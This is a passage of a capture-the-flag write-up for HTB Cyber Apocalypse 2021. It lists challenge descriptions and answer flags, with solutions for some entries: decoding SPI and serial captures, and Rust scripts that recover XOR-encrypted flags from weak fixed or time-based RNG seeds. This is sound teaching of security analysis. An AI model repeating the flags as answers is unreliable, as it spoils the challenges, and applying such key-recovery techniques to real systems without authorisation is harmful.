source /opt/ros/noetic/setup.bash
roscore &
rviz &
```

Add a PointCloud2 display to show the `velodyne_points` from the capture.



Next, we replay the capture into the tool. The `s 200` option is to play the file starting at the 200 second mark, which is roughly where the flag is first seen. The `--pause` option pauses the capture so we can modify our settings before playing the data.

```bash
rosbag play -qs 200 Desktop/capture.bag --pause
```

Now we need to configure the tool to display our data. We need to modify the `Fixed Frame` to point to the `odom` messages so we can anchor our display to a fixed location. We also need to change the `Topic` in the `PointCloud2` display to show our `/velodyne_points`. This last part is optional, but it makes it a lot easier to read the flag. Modify the `Decay Time` to any value you want to keep the points on the screen longer. However, keep in mind that the higher the value is, the more RAM it will use. Make sure your host has enough RAM to handle whatever value you enter.

Feel free to mess around with any other settings to see if it helps you with displaying the flag.


Now all we have to do is wait for the flag to appear. You can move the camera around with your mouse to get a better angle on the each character of the flag if needed.


### References

[ROS Installation](http://wiki.ros.org/ROS/Installation)

[*Back to top*](#cyber-apocalypse-2021)

---

## RSA jam

  

**Challenge Category**


**Challenge Description**

```
Even aliens have TLA agencies trying to apply rubber hose cryptanalysis.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_rsa_jam.zip](files/rsa_jam/crypto_rsa_jam.zip)

**Flag**

```
CHTB{lambda_but_n0t_lam3_bda}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## RuneScape

  

**Challenge Category**


**Challenge Description**

```
This is an old game, and seeing how big the output file is, I understand
where the M in MMO comes from...
This challenge will raise 120 euros for a good cause.
```

**Challenge Files**

[crypto_runescape.zip](files/runescape/crypto_runescape.zip)

**Flag**

```
CHTB{Imai_and_Matsumoto_play_with_multivariate_cryptography}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Save the environment

  

**Challenge Category**


**Challenge Description**

```
Extraterrestrial creatures have landed on our planet and drain every
resource possible! Rainforests are being destroyed, the oxygen runs low,
materials are hard to find. We need to protect our environment at every
cost, otherwise there will be no future for humankind..
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[pwn_save_the_environment.zip](files/save_the_environment/pwn_save_the_environment.zip)

**Flag**

```
CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Secure

  

**Challenge Category**


**Challenge Description**

```
We need to find cover before the invasion begins but unfortunately, the
bunker is secured by a smart door lock. The keys of the device are stored
in an external microSD connected with wiring with the unsecured part of
the device enabling us to capture some traces while trying random
combinations. Can you recover the key?
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[hw_secure.zip](files/secure/hw_secure.zip)

**Flag**

```
CHTB{5P1_15_c0mm0n_0n_m3m02y_d3v1c35_!@52}
```

### Solution

This challenge involves analyzing data being passed between a microSD card and another device. We can use a tool, [Saleae](https://www.saleae.com/), to read the data for us.

We can probably assume the capture is in SPI, since that is one of the methods microSD cards use to communicate. SPI consists of several channels. The `Master Out Slave In (MOSI)` and `Master In Slave Out (MISO)` channels are the channels where data gets passed between the master and slave devices. The `Slave Select (SS)`, or `Enable`, channel is used to indicate when data is ready to be read.

When we first open up the capture, we see four channels. Channels 0 and 1 appears to be data being sent. Channel 2 is clearly the enable line since it dips every time the data is being passed. Last but not least, channel 3 is the clock since it has evenly spaced timing marks.



Now we just need to load these settings into an SPI analyzer to read the traffic. It doesn't matter whether you have channel 0 or 1 for the MOSI and MISO channels since they will be read the same.


Now that we have the data, we can export it to a csv for further analysis. While digging through the data, we notice headers for a FAT16 file system, which makes sense since it is from a microSD card. We can probably assume the flag is written to the disk somewhere in plaintext. We can retrieve it by searching the drive for the flag format.

```python
#!/usr/bin/env python3
import csv
import re


def read_csv(filename):
    with open(filename, 'r') as f:
        data = csv.DictReader(f)
        return list(data)

def get_data(data, channel='MOSI'):
    if channel not in ['MOSI', 'MISO']:
        raise ValueError(f'Invalid channel: {channel}')
    return bytes(int(r[channel], 16) for r in data)


if __name__ == '__main__':
    csv_data = read_csv('secure.csv')
    data = get_data(csv_data, 'MOSI')
    flag = re.search(b'CHTB{[^}]+}', data).group()
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Serial Logs

  

**Challenge Category**


**Challenge Description**

```
We have gained physical access to the debugging interface of the Access
Control System which is based on a Raspberry Pi-based IoT device. We
believe that the log messages of this device contain valuable information
of when our asset was abducted
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[hw_serial_logs.zip](files/serial_logs/hw_serial_logs.zip)

**Flag**

```
CHTB{wh47?!_f23qu3ncy_h0pp1n9_1n_4_532141_p2070c01?!!!52}
```

### Solution

This challenge involves analyzing logs from a serial interface. We can use a tool, [Saleae](https://www.saleae.com/), to read the logs for us.

When we first open up the file, we see two channels. We can tell channel 1 contains the data because it looks like a barcode.


Now we need to figure out what the bit rate is by looking at the timing between each bit in the data. We can do this by zooming in on the first section of data in channel 1 and finding the shortest timing marks.


It appears to be around 8.48 microseconds. Now we need to find the nearest bit rate that matches that timing. We can do this with this equation `(1/8.48) * (10^6)`, which ends up being around `117,924`. Then we just pick the nearest standard bit rate, which ends up being `115,200`. Or... we can just look at the [common serial port speeds](https://en.wikipedia.org/wiki/Serial_port#Settings) table on Wikipedia.

Now we just use an `Async Serial` analyzer with the following settings to decode the data:



However, when we view the data in the terminal, we get this:

```
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
...
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
[ERR] Noise detected in channel. Swithcing baud to backup value
\xEE\x1E\xEC~\x9E\x10\xF2\x1E|`~\x1C\xE\x8C\x9C\x8Er\x1E|\x8E\x0C\x9E|p\xE0|\xC\x1C...
```

It looks like the bit rate changed around halfway through the capture, so we have to repeat the previous steps to determine the new bit rate, which turns out to be `76,800`. Now we just change the settings in our analyzer and check the terminal again.

```
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
...
[LOG] Connection from CHTB{wh47?!_f23qu3ncy_h0pp1n9_1n_4_532141_p2070c01?!!!52}
```

[*Back to top*](#cyber-apocalypse-2021)

### References

[Saleae](https://www.saleae.com/)\
[Common serial port speeds](https://en.wikipedia.org/wiki/Serial_port#Settings)

---

## SoulCrabber

  

**Challenge Category**


**Challenge Description**

```
Aliens heard of this cool newer language called Rust, and hoped the safety
it offers could be used to improve their stream cipher.
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[crypto_soulcrabber.zip](files/soulcrabber/crypto_soulcrabber.zip)

**Flag**

```
CHTB{mem0ry_s4f3_crypt0_f41l}
```

### Solution

For this challenge, we are given the source code for the encryption process.

```rust
use rand::{Rng,SeedableRng};
use rand::rngs::StdRng;
use std::fs;
use std::io::Write;

fn get_rng() -> StdRng {
    let seed = 13371337;
    return StdRng::seed_from_u64(seed);
}

fn rand_xor(input : String) -> String {
    let mut rng = get_rng();
    return input
        .chars()
        .into_iter()
        .map(|c| format!("{:02x}", (c as u8 ^ rng.gen::<u8>())))
        .collect::<Vec<String>>()
        .join("");
}

fn main() -> std::io::Result<()> {
    let flag = fs::read_to_string("out.txt")?;
    let xored = rand_xor(flag);
    println!("{}", xored);
    let mut file = fs::File::create("flag.txt")?;
    file.write(xored.as_bytes())?;
    Ok(())
}
```

From the source code, we can see the flag is being XORed with a random xor key. However, the random function is being seeded with the same seed, `13371337`, every time this program runs. We can easily recover the flag without knowing the key by just using the same seed to decrypt with.

```rust
use rand::rngs::StdRng;
use rand::{Rng, SeedableRng};
use std::fs;

fn rand_xor(input: &Vec<u8>) -> String {
    let mut rng = StdRng::seed_from_u64(13371337);
    return input
        .into_iter()
        .map(|c| (c ^ rng.gen::<u8>()) as char)
        .collect();
}

fn main() {
    let data = fs::read_to_string("out.txt").expect("File not found");
    let data = hex::decode(data).expect("Decode error");
    let flag = rand_xor(&data);
    println!("{}", flag);
}
```

The solution also has two dependencies, `hex` and `rand`.

```bash
$ cargo new soulcrabber && cd soulcrabber
$ mv ../out.txt ./
$ mv ../solve.rs src/main.rs
$ echo 'hex = "0.4.3"' >> Cargo.toml
$ echo 'rand = "0.8.3"' >> Cargo.toml
$ cargo -q build && cargo -q run
CHTB{mem0ry_s4f3_crypt0_f41l}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## SoulCrabber 2

  

**Challenge Category**


**Challenge Description**

```
Aliens realised that hard-coded values are bad, so added a little bit of
entropy.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_soulcrabber_2.zip](files/soulcrabber_2/crypto_soulcrabber_2.zip)

**Flag**

```
CHTB{cl4551c_ch4ll3ng3_r3wr1tt3n_1n_ru5t}
```

### Solution

Source code:

```rust
use rand::{Rng,SeedableRng};
use rand::rngs::StdRng;
use std::fs;
use std::io::Write;
use std::time::SystemTime;

fn get_rng() -> StdRng {
    let seed = SystemTime::now()
        .duration_since(SystemTime::UNIX_EPOCH)
        .expect("Time is broken")
        .as_secs();
    return StdRng::seed_from_u64(seed);
}

fn rand_xor(input : String) -> String {
    let mut rng = get_rng();
    return input
        .chars()
        .into_iter()
        .map(|c| format!("{:02x}", (c as u8 ^ rng.gen::<u8>())))
        .collect::<Vec<String>>()
        .join("");
}

fn main() -> std::io::Result<()> {
    let flag = fs::read_to_string("flag.txt")?;
    let xored = rand_xor(flag);
    println!("{}", xored);
    let mut file = fs::File::create("out.txt")?;
    file.write(xored.as_bytes())?;
    Ok(())
}
```

This challenge is very similar to [SoulCrabber](#soulcrabber), except it uses a seed generated from the system time instead of a hard coded seed. We can easily brute force the seed by starting from an initial time and working backwards until we find the flag. We can begin our attack with the last modified time from the challenge files.

```rust
use rand::rngs::StdRng;
use rand::{Rng, SeedableRng};
use std::fs;
use std::time::UNIX_EPOCH;

fn get_mtime(filename: &str) -> u64 {
    let metadata = fs::metadata(filename).expect("File not found");
    return metadata.modified().unwrap()
        .duration_since(UNIX_EPOCH).unwrap()
        .as_secs();
}

fn rand_xor(input: &Vec<u8>, seed: u64) -> String {
    let mut rng = StdRng::seed_from_u64(seed);
    return input
        .into_iter()
        .map(|c| (c ^ rng.gen::<u8>()) as char)
        .collect();
}

fn find_flag(input: Vec<u8>, init_seed: u64) -> String {
    let mut seed = init_seed;
    loop {
        let flag = rand_xor(&input, seed);
        if flag.contains("CHTB{") {
            // println!("{}", seed);
            return flag;
        }
        seed -= 1;
    }
}

fn main() -> std::io::Result<()> {
    let data = fs::read_to_string("out.txt").expect("File not found");
    let data = data.strip_suffix("\n").unwrap_or(&data);
    let data = hex::decode(data).expect("Decode error");
    let mtime = get_mtime("out.txt");
    let flag = find_flag(data, mtime);
    println!("{}", flag);
    Ok(())
}
```

```bash
$ cargo new soulcrabber_2 && cd soulcrabber_2
$ mv ../out.txt ./
$ mv ../solve.rs src/main.rs
$ echo 'hex = "0.4.3"' >> Cargo.toml
$ echo 'rand = "0.8.3"' >> Cargo.toml
$ cargo -q build && cargo -q run
CHTB{cl4551c_ch4ll3ng3_r3wr1tt3n_1n_ru5t}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## SpongeBob SquarePants: Battle for Bikini Bottom – Rehydrated

  

**Challenge Category**


**Challenge Description**

```
Wait, spongebob and squarepants don't hash to the same thing?
This challenge will raise 120 euros for a good cause.
```

**Challenge Files**

[crypto_spongebob.zip](files/spongebob_squarepants_battle_for_bikini_bottom_rehydrated/crypto_spongebob.zip)

**Flag**

```
CHTB{b1tw1s3_backd00rs_d0n't_forg3t_to_w4sh_the1r_h4nds}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Starfleet

  

**Challenge Category**


**Challenge Description**

```
Do you enjoy unaliving humans as much as the next guy?
Welcome to Starfleet academy, the place where your mass genocide
dreams come true. Enroll today!
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[web_starfleet.zip](files/starfleet/web_starfleet.zip)

**Flag**

```
CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Super Metroid

  

**Challenge Category**


**Challenge Description**

```
Samus needs our help! After a day of burning out her Arm Cannon,
blasting Metroids and melting the Mother Brain, she's found her ship's
maps have all been encrypted. Lucky for her, these aliens still don't know
what they're doing and are trying to roll their own crypto. Can you recover
the flag from their elliptic protocol?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_super_metroid.zip](files/super_metroid/crypto_super_metroid.zip)

**Flag**

```
CHTB{Counting_points_with_Schoofs_algorithm}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## System dROP

  

**Challenge Category**


**Challenge Description**

```
In the dark night, we managed to sneak in the plant that manages all the
resources. Ready to deploy our root-kit and stop this endless draining of
our planet, we accidentally triggered the alarm! Acid started raining from
the ceiling, destroying almost everything but us and small terminal-like
console. We can see no output, but it still seems to work, somehow..
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[pwn_system_drop.zip](files/system_drop/pwn_system_drop.zip)

**Flag**

```
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Tetris

  

**Challenge Category**


**Challenge Description**

```
It seems the aliens might be living backwards in time, so now we're
suddenly seeing completely different and older kinds of cipher too. The
flag consists entirely of uppercase characters, and is of the form
CHTB{SOMETHINGHERE}. You'll still have to insert the {} yourself.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_tetris.zip](files/tetris/crypto_tetris.zip)

**Flag**

```
CHTB{UNFORTUNATELYQUIPQIUPDOESNTSUPPORTTRANSPOSITIONS}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Tetris 3D

  

**Challenge Category**


**Challenge Description**

```
With all the timey-wimey weirdness going on, I have no idea if the aliens
encrypted this before or after the tetris game. All I know is that I want my
games back! The flag consists entirely of uppercase characters, and is of
the form CHTB{SOMETHINGHERE}. You'll still have to insert the {}
yourself.
This challenge will raise 120 euros for a good cause.
```

**Challenge Files**

[crypto_tetris_3d.zip](files/tetris_3d/crypto_tetris_3d.zip)

**Flag**

```
CHTB{ALMOSTLIKEAVIGENERECIPHERBUTNOTQUITEORSLIDINGDOWNTHATHILL}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## The Galactic Times

  

**Challenge Category**


**Challenge Description**

```
The Galactic Times is a monthly Alien newspaper that focuses on news
from around the Galaxy. This month's issue is focused on the Human race
and contains some very controversial articles. The newspaper reportedly
contains a restricted endpoint with some Alien secrets. Can you find a way
to view the forbidden pages?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_the_galactic_times.zip](files/the_galactic_times/web_the_galactic_times.zip)

**Flag**

```
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}
```

### Solution

This challenge was solved by my teammate. See their writeup [here](https://jaimelightfoot.com/blog/2021-htb-cyber-apocalypse-ctf-web-writeups/#the-galactic-times).

[*Back to top*](#cyber-apocalypse-2021)

---

## Welcome!

  

**Challenge Category**


**Challenge Description**

```
Join our Discord Server and the CA-2021 channels...
```

**Flag**

```
CHTB{CA_CTF_i$_F*ing_EPIC}
```

### Solution

Join the discord server and check the `#ca-2021-announcements` channel.

[*Back to top*](#cyber-apocalypse-2021)

---

## Wii Phit

  

**Challenge Category**


**Challenge Description**

```
The aliens have encrypted our save file from Wii Phit and we're about to
lose our 4,869 day streak!! They're even taunting us with a hint. I think the
alien's are getting a bit over-confident if you ask me.
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[crypto_wii_phit.zip](files/wii_phit/crypto_wii_phit.zip)

**Flag**

```
CHTB{Erdos-Straus-Conjecture}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Wild Goose Hunt

  

**Challenge Category**


**Challenge Description**

```
Outdated Alien technology has been found by the human resistance. The
system might contain sensitive information that could be of use to us. Our
experts are trying to find a way into the system. Can you help?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_wild_goose_hunt.zip](files/wild_goose_hunt/web_wild_goose_hunt.zip)

**Flag**

```
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```

### Solution

This challenge was solved by my teammate. See their writeup [here](https://jaimelightfoot.com/blog/2021-htb-cyber-apocalypse-ctf-web-writeups/#wild-goose-hunt).

[*Back to top*](#cyber-apocalypse-2021)
